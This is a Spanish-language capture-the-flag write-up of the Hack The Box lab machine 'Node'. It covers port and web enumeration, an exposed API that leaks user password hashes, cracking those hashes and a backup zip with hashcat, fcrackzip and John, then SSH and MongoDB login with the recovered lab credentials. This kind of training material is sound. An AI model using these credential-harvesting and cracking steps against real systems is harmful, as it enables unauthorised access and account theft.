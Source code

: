 # Node-HTB

Esta es la resolucion de la maquina Node

## NMAP

Solo tiene dos puertos abiertos el 22 y el 3000

```
sudo nmap -sSVC -p22,3000 -vvv 10.129.75.0 -oN scan

PORT     STATE SERVICE
22/tcp   open  ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0) (Ubuntu 16.04.7 LTS (Xenial Xerus)

3000/tcp open  ppp hadoop-datanode syn-ack ttl 63 Apache Hadoop


```

Ya sabes con eso basta para enumerar con que Ubuntu estamos trabajando.

## WHATWEB

Hay que intentar enumerar con lo que se pueda para saber a que nos estamos enfrentando.

```
whatweb http://10.129.74.234:3000/ 
```

![image](https://github.com/gecr07/Node-HTB/assets/63270579/fdf5f69e-a20d-40eb-802f-558fb3d4dc38)


## CURL

Para ver con que estamos tratando lanza un head.

![image](https://github.com/gecr07/Node-HTB/assets/63270579/170e9f88-2dde-4c27-9c5c-4ed64840bc93)


```
curl -I http://10.129.74.234:3000/

```

Toda esta informacion tambien podria verse desde el dev tools de firefox ya que en el oscp no se permite usar.

![image](https://github.com/gecr07/Node-HTB/assets/63270579/defa3833-8160-4aa6-96c0-f44090feedab)

En la peticion se comienza a notar que exiten diferentes rutas dentro de ese servidor.

![image](https://github.com/gecr07/Node-HTB/assets/63270579/956f38dc-45af-4e44-91f9-bf8ff48fa266)

Entonctramos usuarios que se podrian usar como potencial vector de ataque

```
id	"59a7368398aa325cc03ee51d"
username	"tom"
password	"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240"
is_admin	false
1	
_id	"59a7368e98aa325cc03ee51e"
username	"mark"
password	"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73"
is_admin	false
2	
_id	"59aa9781cced6f1d1490fce9"
username	"rastating"
password	"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0"
is_admin	false
```

La ruta que nos dice que hay una api es 

```
http://10.129.74.234:3000/api/users/latest
```

## FFUF

```
ffuf -r -fc 404 -fs 3861 -t 1000  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.75.0:3000/api/FUZZ

```

Siempre es bueno revisar las rutas que tienen la api pasar por ahi con el navegador. Por suerte aqui me aparecio una ruta Users( si con mayusculas). Y al visitarla jalaba mas datos un usuario admin

```
http://10.129.74.234:3000/api/users/

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]

```

## HASHCAT

Tambien tenemos un login en la pagina se crackearon todos los hashes que se entontro:

```
hashid hash

hashcat -m 1400 hash_backup /usr/share/wordlists/rockyou.txt


tom:spongebob
mark:snowflake
rastating:no se pudo
myP14ceAdm1nAcc0uNT:manchester

```

Por la version de SSH se pudo enumerar pero como usa cosas con python 2 manda errores termine haciendolo con metasploit. Mejor intentalo con wfuzz o ffuf.

## fcrackzip vs JTR


![image](https://github.com/gecr07/Node-HTB/assets/63270579/0860137e-a837-4fb9-9ef6-821ca28a6b44)

Esto descarga un archivo que es un backup

```
file

cat file | base64 -d > file_decode
file # Nos dice que es un zip

7z l file
7z x file

## S4VITAR lo hizo asi para dejar todo en el mismo archivo

cat mybackup | base64 -d | sponge mybackup
```

Para crackear el passwd del .zip tenemos dos opciones JTR o fcrackzip.

```
 sudo fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file_backup 


PASSWORD FOUND!!!!: pw == magicword

## S4VITAR

zip2john file.zip > hash # te extrae un hash

john -w rockyou.txt hash
                         
```

Revisamos el app.js y ya de entrada vemos 2 cosas que son como keys mongo es una base de datos NOSQL.

![image](https://github.com/gecr07/Node-HTB/assets/63270579/e3335b8f-fd70-4e3f-80c2-2f5a617c2349)


Nos loggeamos con las credenciales de admin que entonctramos hasta aqui ya sabemos varias cosas esta usando NODEJS despues usa de servidor Express tiene una API ya tenemos usuarios validos y un servicio SSH en el puerto 22 toca probar todas las credenciales a ver si una es.

Ya te digo que ninguna credencial de las anteriores servis para inciar session con ssh. Pero si la que encontraste en el archivo.

```
sshpass -p 'passowrd' ssh tom@10.10.10.58 # esto sirve para poder automatizar algun script y probar passwords
```

## ss vs netstat

No en todos los sistemas tienen netstat pero tal parece que si ss

```
ss -ant
-a (de all)  Display both listening and non-listening (for TCP this means established connections) sockets
-n Do not try to resolve service names.
-t Display TCP sockets.

## Shortcut

shift / para buscar
N para atras
n para adelante
g volver a incio
h help 

```


## MONGODB

Para poder conectase a esta base de datos se hace asi:

```
 const url= 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
  12   │ const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';

## Conectarse

mongo mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace

```































